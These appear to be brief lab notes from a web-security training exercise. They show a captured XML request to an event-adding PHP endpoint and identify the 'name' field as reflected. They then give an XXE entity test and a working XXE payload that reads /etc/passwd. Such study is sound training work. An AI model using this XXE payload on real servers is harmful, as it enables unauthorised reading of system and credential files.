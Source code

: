 XML request to add event: 

POST /addEvent.php HTTP/1.1
Host: 94.237.49.212:42852
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:42852/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 148
Origin: http://94.237.49.212:42852
DNT: 1
Connection: close
Cookie: PHPSESSID=4o7opq5pp3o345cnf27ig2t23e; uid=52
Sec-GPC: 1


            <root>
            <name>1</name>
            <details>2</details>
            <date>2024-07-22</date>
            </root>

ressponse: 

HTTP/1.1 200 OK
Date: Sun, 21 Jul 2024 08:43:57 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 27
Connection: close
Content-Type: text/html; charset=UTF-8

Event '1' has been created.

parameter name seems to reflect so thats the injection point 

it is vulnerable to XXE injection 

test: 
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
            <root>
            <name>
&company;
</name>
            <details>2</details>
            <date>2024-07-22</date>
            </root>

was able to read etc/passw file using 
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
